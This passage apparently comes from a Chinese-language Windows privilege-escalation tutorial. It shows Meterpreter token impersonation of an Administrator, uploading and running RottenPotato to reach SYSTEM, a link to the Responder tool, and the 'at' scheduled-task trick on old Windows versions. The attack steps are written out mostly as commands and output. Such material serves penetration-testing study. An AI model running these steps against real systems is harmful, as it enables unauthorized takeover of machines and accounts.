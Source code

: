 ## 2.3 令牌窃取

```dockerfile
#已经获取到一个session
#方法一
meterpreter > use incognito
......
meterpreter > list_tokens -u
WIN-2HU3N1\Administrator
meterpreter > impersonate_token WIN-2HU3N1\\Administrator  #注意：这里是两个反斜杠\\
Successfully......
meterpreter > shell

C:\User\Administrator>whoami
WIN-2HU3N1\Administrator
```

```bash
#方法二,借用Rotten potato程序
https://github.com/foxglovesec/RottenPotato.git
meterpreter > use incognito
meterpreter > list_tokens -u
WIN-2HU3N1\Administrator
meterpreter > upload /root/Rottenpotato/rottenpotato.exe
Successfully
meterpreter > execute -HC -f rottenpotato.exe
Successfully
meterpreter > getuid
...NT AUTHORITY\SYSTEM
```

## 2.4 无凭证条件下的权限提升

Responder.py：https://github.com/SpiderLabs/Responder.git

## 0x03 按系统类型类型

### 3.1 Windows2000/2003、XP

#### 3.1.1 at本地命令提权

在 Windows2000、Windows 2003、Windows XP 这三类系统中，我们可以轻松将 Administrators 组下的用户权限提升到 SYSTEM

at 是一个发布定时任务计划的命令行工具，语法比较简单。通过 at 命令发布的定时任务计划， Windows 默认以 SYSTEM 权限运行。定时任务计划可以是批处理、可以是一个二进制文件。

```dos
语法：at 时间 命令
例子：at 10:45PM calc.exe
```

该命令会发布一个定时任务计划，在每日的 10:45 启动 calc.exe。我们可以通过 “/interactive”开启界面交互模式：

![](https://minioapi.nerubian.cn/image/20250410152606948.png)
